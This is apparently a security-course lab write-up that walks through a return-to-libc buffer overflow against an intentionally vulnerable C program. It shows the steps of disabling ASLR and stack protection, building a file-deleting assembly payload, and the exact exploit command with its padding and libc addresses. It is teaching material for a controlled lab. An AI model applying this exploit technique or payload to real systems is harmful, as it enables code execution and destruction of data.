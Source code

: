# Exploit return-to-lib-c vulnerability, delete file "dummy" in directory /tmp/dummy using environment variable

Build image 
- `docker build -t img4lab .`
- `docker run -it --privileged -v C:/Users/Admin/seclabs:/home/seed/seclabs img4lab`

vuln.c

![Picture about vuln.c](/Chapter-2/imgs/Lab3/vuln.png)
- Compile `gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2`

Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization) `sudo sysctl -w kernel.randomize_va_space=0`

![Picture about ASLR](/Chapter-2/imgs/Lab3/turn-off-random-address.png)

Now we create an environment variable in Linux with the path of file `file_del`

![Picture about creating env var](/Chapter-2/imgs/Lab3/create-env.png)
- `nasm -g -f elf file_del.asm`
- `ld -m elf_i386 -o file_del file_del.o`
- `pwd` -> `/home/seed/seclabs/bof`
- `export exploit_path="/home/seed/seclabs/bof/file_del`

Based on `env`, we know that we successfully create env var

![Picture about checking env var](/Chapter-2/imgs/Lab3/check-env.png)

Look at the stack frame

![Picture about stack frame](/Chapter-2/imgs/Lab3/Stack-Frame.png)

If we want to exploit
- 68 bytes to overwrite buf and ebp
- 4 bytes to overwrite ret addr of vuln with the address of system
- 4 bytes for the address of exit
- 4 bytes for argument of system (exploit path that we created before)

We use gdb to get address of them
- Start the program before finding

![Picture about finding address](/Chapter-2/imgs/Lab3/gdb-address.png)
- `0xf7e50db0` -> `\xb0\x0d\xe5\xf7`
- `0xf7e449e0` -> `\xe0\x49\xe4\xf7`
- `0xffffdf72` -> `\x72\xdf\xff\xff`

Therefore, the final command is `r $(python -c "print(68*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x72\xdf\xff\xff')")`

After running this command, we successfully execute `file_del` and delete `dummyfile`

![Picture about result](/Chapter-2/imgs/Lab3/result.png)